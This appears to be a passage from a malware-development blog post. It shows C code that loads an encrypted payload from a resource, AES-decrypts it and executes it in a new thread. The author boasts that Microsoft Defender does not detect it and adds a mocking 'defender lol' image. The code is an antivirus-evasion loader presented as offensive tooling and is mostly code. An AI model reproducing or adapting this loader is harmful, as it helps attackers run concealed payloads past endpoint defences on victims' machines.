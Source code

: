 ```c

	RsrcInfo sBufferInfo = CloneRsrcPayload();
	SIZE_T sPayloadSize = sBufferInfo.sBufferSize;
	PVOID pPayload = sBufferInfo.pWorkBuffer;
	AES_init_ctx_iv(&ctx, pKey, pIv);
```
Now we just decrypt the buffer and run new thread, and Defender doesn't have a clue!
```c

	AES_CBC_decrypt_buffer(&ctx, pPayload, sPayloadSize);
	PrintHexData(pPayload, sPayloadSize);
	
	// Execute

	RunThread(pPayload, sPayloadSize);

	return EXIT_SUCCESS;
}

```
![defender lol](/assets/img/static.gif)
_defender lol_
